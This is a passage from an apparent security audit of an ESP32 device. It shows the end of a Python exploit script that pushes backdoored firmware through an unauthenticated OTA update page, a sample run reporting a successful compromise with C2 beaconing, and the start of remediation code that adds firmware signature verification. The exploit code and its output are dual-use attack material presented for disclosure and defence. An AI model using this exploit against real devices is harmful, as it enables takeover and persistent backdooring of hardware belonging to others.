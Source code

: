 ```python
                print("[+] Firmware uploaded successfully!")
                print("[*] Device is rebooting...")
                print("[+] Backdoor should be active in 10-15 seconds")
                return True
            else:
                print(f"[-] Upload failed: {r.status_code}")
                return False
                
    except Exception as e:
        print(f"[-] Error during upload: {e}")
        return False

def main():
    parser = argparse.ArgumentParser(
        description="Exploit insecure ESP32 OTA update"
    )
    parser.add_argument("target_ip", help="Target ESP32 IP address")
    parser.add_argument("firmware", help="Path to malicious firmware.bin")
    
    args = parser.parse_args()
    
    if exploit_ota(args.target_ip, args.firmware):
        print("\n[!] EXPLOITATION SUCCESSFUL")
        print("[!] Device compromised with backdoored firmware")
        print("[!] Backdoor will connect to C2 server every 60 seconds")
    else:
        print("\n[-] Exploitation failed")
        sys.exit(1)

if __name__ == "__main__":
    main()
```

**Usage:**
```bash
$ python3 exploit_ota.py 192.168.1.100 malicious_firmware.bin
[*] Targeting ESP32 at 192.168.1.100
[+] Device is reachable
[+] OTA page accessible (no authentication)
[*] Uploading malicious firmware: malicious_firmware.bin
[+] Firmware uploaded successfully!
[*] Device is rebooting...
[+] Backdoor should be active in 10-15 seconds

[!] EXPLOITATION SUCCESSFUL
```

### Remediation

**IMMEDIATE (Week 1) - Add Digital Signature Verification:**

```cpp
#include <mbedtls/sha256.h>
#include <mbedtls/rsa.h>
#include <mbedtls/pk.h>

// Public key for firmware verification (store securely)
const char* FIRMWARE_PUBLIC_KEY = R"EOF(
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA...
-----END PUBLIC KEY-----
)EOF";

bool verifyFirmwareSignature(uint8_t* firmware, size_t size, uint8_t* signature) {
    // Calculate SHA-256 hash of firmware
```